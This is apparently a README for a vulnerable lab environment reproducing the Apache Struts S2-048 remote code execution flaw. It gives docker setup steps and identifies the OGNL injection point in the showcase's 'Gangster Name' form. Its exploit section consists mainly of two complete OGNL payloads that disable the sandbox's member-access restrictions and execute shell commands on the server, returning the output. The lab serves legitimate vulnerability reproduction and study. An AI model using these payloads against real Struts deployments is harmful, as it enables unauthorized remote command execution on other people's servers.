

# S2-048 Remote Code Execution Vulnerablity

[中文版本(Chinese version)](README.zh-cn.md)

Affected Version: 2.0.0 - 2.3.32

Details:

 - http://struts.apache.org/docs/s2-048.html
 - http://bobao.360.cn/learning/detail/4078.html
 - http://xxlegend.com/2017/07/08/S2-048%20%E5%8A%A8%E6%80%81%E5%88%86%E6%9E%90/

## Setup

```
docker-compose up -d
```

## Exploit

This environment is a struts-2.3.32 showcase, in tomcat-8.5. After the environment run, visit the `http://your-ip:8080/showcase/` to view struts2 showcase.

Access Integration/Struts 1 Integration:



The OGNL expression vulnerability position is `Gangster Name` form.

Enter `${233*233}` to see the results of the execution:


Refer S2-045's sandbox bypass method, here is my POC:

```
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())).(#q)}
```


Of course, you can also use the POC of s2-045 directly (need Burpsuite):

```
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='id').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
```
